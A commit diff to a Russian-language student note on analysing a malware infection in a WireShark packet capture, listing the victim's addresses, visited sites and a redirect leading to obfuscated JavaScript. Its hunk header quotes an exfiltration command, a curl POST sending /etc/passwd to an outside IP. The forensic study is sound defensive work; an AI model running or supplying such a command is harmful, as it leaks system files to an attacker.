

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Анализ PCAP WireShark.md, the part around the change. Rendered like a GitHub page; pictures changed too: attachment/Pasted image 20261108170426.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-11-08 17:09:04

```diff
--- a/Анализ PCAP WireShark.md
+++ b/Анализ PCAP WireShark.md
@@ -66,13 +66,14 @@ curl -X POST -d /etc/passwd http://117.11.88.124:443/ - была введена
 Какой веб-сайт запустил цепочку событий заражения?
 
 ## Расследование:
-Выбрала для анализа ip адреса ip.addr == 10.4.1.102 && ip.addr == 213.186.33.87
-![](attachment/Pasted%20image%2020261108134320.png)
-Мак адрес жертвы 74:44:01:8d:2е:93
-IP адрес 213.186.33.87
 
-![](attachment/Pasted%20image%2020261108135122.png)
-имя хоста connexion-zen.com
+Захват начинается с получения
 
 ![](attachment/Pasted%20image%2020261108135734.png)
-злоумышленник последовательно устанавливает соединения с серверами и отправляет GET запрос с какой то ссылкой.
+пользователь последовательно устанавливает соединения с серверами и отправляет GET запрос с какой то ссылкой.
+`expert5.ru` - `404 Not Found`
+`www.shiashop.com` - `200 OK`
+`infosoft.pl` - `404 Not Found`
+`lamancha.club` - Перенаправление, затем JavaScript
+В пакете 97 начинаете передача вредоносного кода. Причем код обфусцирован - намеренно сделан нечитаемым для человека, но работосопобным.
+![](attachment/Pasted%20image%2020261108170426.png)
```
